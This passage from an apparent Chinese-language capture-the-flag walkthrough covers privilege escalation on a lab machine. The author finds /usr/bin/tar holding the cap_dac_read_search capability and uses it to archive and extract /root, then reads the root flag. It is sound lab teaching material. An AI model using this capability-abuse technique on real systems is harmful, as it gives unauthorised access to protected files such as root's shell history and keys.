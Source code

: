   morris@sirrom:~$ sudo -l
  [sudo] password for morris: 
  Sorry, user morris may not run sudo on sirrom.
  morris@sirrom:~$ 
  ```

- `morris`用户并没有什么有效信息，切换回`norris`用户

### 获取root.flag

- 查看当前用户是否具有`getcap`权限

- Ps:``getcap` 是一个 Linux 命令，用于获取文件或目录的能力(capability)信息。Linux 能力是一种安全机制，允许程序或进程在不需要完全 root 权限的情况下执行一些特定的操作。这使得系统能够更细粒度地控制权限，以提高安全性。`getcap` 命令允许您查看已分配给文件或目录的能力。

- ```shell
  norris@sirrom:/var/www/html$ /sbin/getcap -r / 2>/dev/null 
  /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
  /usr/bin/tar = cap_dac_read_search+ep
  /usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
  /usr/bin/ping = cap_net_raw+ep
  ```

- 尝试使用`tar`将`root`目录进行打包

- ```shell
  norris@sirrom:/var/www/html$ cd ~
  
  ## 使用参数-zcvf将文件进行打包
  norris@sirrom:~$ tar -zcvf root.tar.gz /root
  tar: Removing leading `/' from member names
  /root/
  /root/root.txt
  /root/.bashrc
  /root/.gnupg/
  /root/.gnupg/private-keys-v1.d/
  /root/.bash_history
  /root/.cache/
  /root/.local/
  /root/.local/share/
  /root/.local/share/nano/
  /root/.profile
  norris@sirrom:~$ ls
  ftp  root.tar.gz  user.txt
  
  ## 使用-zxvf将得到的文件进行解压
  norris@sirrom:~$ tar -zxvf root.tar.gz 
  root/
  root/root.txt
  root/.bashrc
  root/.gnupg/
  root/.gnupg/private-keys-v1.d/
  root/.bash_history
  root/.cache/
  root/.local/
  root/.local/share/
  root/.local/share/nano/
  root/.profile
  norris@sirrom:~$ cat root/root.txt 
  8fc9376d961670ca10be270d52eda423
  norris@sirrom:~$ 
  ```

  ```